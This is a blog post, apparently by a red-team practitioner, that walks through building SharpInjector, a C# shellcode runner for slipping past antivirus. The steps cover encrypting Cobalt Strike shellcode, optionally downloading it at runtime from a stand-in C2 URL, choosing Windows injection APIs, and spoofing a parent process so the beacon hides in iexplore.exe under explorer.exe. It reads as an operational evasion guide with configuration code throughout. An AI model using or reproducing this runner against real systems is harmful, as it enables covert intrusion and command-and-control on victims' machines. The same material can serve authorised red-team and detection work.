 ```yaml
---
layout: post
title: SharpInjector
subtitle: Experimenting with a shellcode runner
thumbnail-img: /assets/projects/sharpinjector/thumb.png
share-img: /assets/projects/sharpinjector/thumb.png
tags: [c#, shellcode runner, sharpinjector]
---
```


Since AV evasion has become more difficult over time, I've had to turn to more mature payloads and shellcode runners. Gone are the days of initial access through click-to-generate payloads like Cobalt Strike's HTA. Some of the more customized and advanced runners I've had sucess with are FireEye's [DueDlligence](https://github.com/fireeye/DueDLLigence), [D00mFist's](https://twitter.com/_D00mfist) [Go4aRun](https://github.com/D00MFist/Go4aRun) and [djhohnstein's](https://twitter.com/djhohnstein) [scatterbrain](https://github.com/djhohnstein/ScatterBrain). 

The SharpInjector project is my inital attempt at writing a custom shellcode runner in the same vein as those projects (lots of inspiration drawn from them, as well as this [DEFCON workshop](https://github.com/mvelazc0/defcon27_csharp_workshop) for help learning parent process ID spoofing). Below is a quick run through of setup/usage, highlighting some of the customization options along the way.

The code repository can be found [here](https://github.com/tw1sm/SharpInjector).

# Prepping the Shellcode
The final SharpInjector payload will contain encrypted shellcode, decrypt it and perform the injection. So we'll need to get some encrypted shellcode into the solution to start.

Generate your shellocde - I'll do this in Cobalt Strike: *Attacks > Packages > Windows Executable (S)*
![Generate Shellcode](/assets/projects/sharpinjector/shellcode.png){: .mx-auto.d-block :}

Clone the project and transfer your `.bin` file over the the system you're generating the payload on
~~~
git clone https://github.com/tw1sm/SharpInjector.git
~~~

Open up the `ScEncryptor` project and edit `Program.cs`. On line 34, edit the encryption key variable:
```csharp
public static string Enc(string data)
        {
            string enc = "";
            string key = "01010101010101010101010101010101"; // CHANGE THIS TO A 16/24/32 BYTE VALUE
```

Build the `ScEncryptor` project 

Run `ScEncryptor.exe` and supply the path of your shellcode .bin as the sole argument
![Encrypt Shellcode](/assets/projects/sharpinjector/scencryptor.png){: .mx-auto.d-block :}

Your shellcode will be encrypted, then base64 encoded and the resulting string will automatically be placed into the `SharpInjector` project in `Shellycode.cs`:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "Od/HuzTqISDnPNtgmoUZ2c8" //SNIPPED
    }
}
```

You can choose to leave the encrypted shellcode within this file and contiune customizing the project. However, if you don't want to include the shellcode string in the final binary, you can copy the base64 string out of `Shellycode.cs` and host a file with the string on the web. If the `EncSc` var is set to an empty string, your shellcode will be downloaded from a supplied URL at runtime:
```csharp
namespace SharpInjector
{
	class EncryptedShellcode
	{
		public string EncSc = "" //Has to be blank for download to run
    }
}
```

This not only has the benefit of excluding the encrypted shellcode from your binary, but it also offers you a sort of "killswitch" for the payload. If you stop hosting your shellcode file at any point, your payload will become a dud. Conversely though, your payload will now be reaching out to the internet, so consider what is best for your situation.

# Building the Payload
The shellcode is ready, let's cutomize the actual payload and build it.

Set the decryption key on line 103 within `Program.cs` in the `SharpInjector` project to match your encryption key set in the `ScEncryptor` project
```csharp
// Decryptor func
public static string Dec(string ciphertext)
{
    string key = "01010101010101010101010101010101"; // CHANGE THIS 16/24/32 BYTE VALUE TO MATCH ENCRYPTION KEY
```

Still within `Program.cs`, on line 22 set your preferred Windows API call used to execute the shellcode. This is very similar to how `DueDlligence` offers several execution options - I've just expanded on the available options to practice importing API calls in C#
```csharp
const ExecutionMethod exeMethod = ExecutionMethod.RtlCreateUserThread; // CHANGE THIS; shellcode exectuon method
```

On lines 24 and 25, set the parent process ID spoofing configs. Line 24 sets the parent process that a child will be spawned from. `explorer.exe` is a good target for this. On line 25, the `ProgramPath` variable specifies the child process to launch - this is the process your beacon/shell will live in.
```csharp
string ParentName = "explorer"; // CHANGE THIS: name of parent process
string ProgramPath = @"C:\Program Files\Internet Explorer\iexplore.exe"; // CHANGE THIS: path to process shellcode will be injected into
```

Lastly, if you've chosen to host your shellcode on the web for download, set the `ShellcodeUrl` variable on line 26. I'm leaving it blank (shellcode included in the binary) for this test, but an example would look like:
```csharp
string ShellcodeUrl = "https://seetwo-domain.com/shellcodefile"; // CHANGE THIS; URL of encrypted shellcode if downloading from web
```

Set your build configuration to `x64` and build the payload.

# Testing Execution
I've got the resutling `SharpInjector.exe` on my target system where I'll execute it:
![SharpInjector Execution](/assets/projects/sharpinjector/execute.png){: .mx-auto.d-block :}

And the Cobalt Strike shell caught:
![Shell](/assets/projects/sharpinjector/shell.png){: .mx-auto.d-block :}

Just to double check how this looks in ProcessExplorer, we can see the HTTPS beacon living in `iexplore.exe`, which does appear spoofed as a child of our chosen parent, `explorer.exe`.
![Shell](/assets/projects/sharpinjector/procexp.png){: .mx-auto.d-block :}